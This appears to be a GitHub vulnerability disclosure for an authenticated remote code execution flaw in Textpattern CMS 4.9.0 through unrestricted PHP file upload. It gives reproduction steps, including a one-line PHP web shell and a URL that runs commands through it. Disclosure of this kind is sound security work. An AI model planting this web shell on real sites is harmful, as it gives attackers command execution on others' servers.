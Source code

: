 # TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload
Textpattern version 4.9.0 is vulnerable to Remote Code Execution (RCE) due to the file upload functionality allowing unrestricted PHP file uploads, potentially leading to remote code execution.

Vulnerable URL:<br> 
http://localhost/textpattern/textpattern/index.php?event=file&step=file_insert<br> 

Reproduction:<br> 
Log in as the root user in Textpattern.<br> 
Create a PHP web shell by making a file named rce.php with the content <?php echo shell_exec($_GET['cmd']); ?>.<br> 
Navigate to 'Content > Files' and upload the rce.php web shell.<br> 
 Access the web shell directly by going to https://<url>/textpattern/files/rce.php?cmd=id.<br> 
You can now interact with the web shell and execute commands using this interface.<br> 

Authors:<br> 
Patrick Dean Ramos<br> 
Nathu Nandwani<br> 
Junnair Manla<br> 
Kevin Rosales<br> 
Steve Nyan<br> 
Shanavas Shakeer<br> 
Lani Lambert<br> 

